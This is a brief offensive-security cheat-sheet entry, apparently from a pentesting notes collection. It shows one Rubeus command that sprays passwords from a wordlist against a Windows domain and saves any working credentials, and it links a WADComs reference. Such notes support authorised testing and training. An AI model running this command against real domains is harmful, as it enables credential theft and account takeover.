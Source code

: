 # Rubeus

Search Tag(s): #password-spraying

`C:\> Rubeus.exe /users:users.lst /passwords:passwords.lst /domain:<domain_name> /outfile:credentials.txt`

---
## References

- [Wadcoms: Rubeus Brute](https://wadcoms.github.io/wadcoms/Rubeus-Brute/)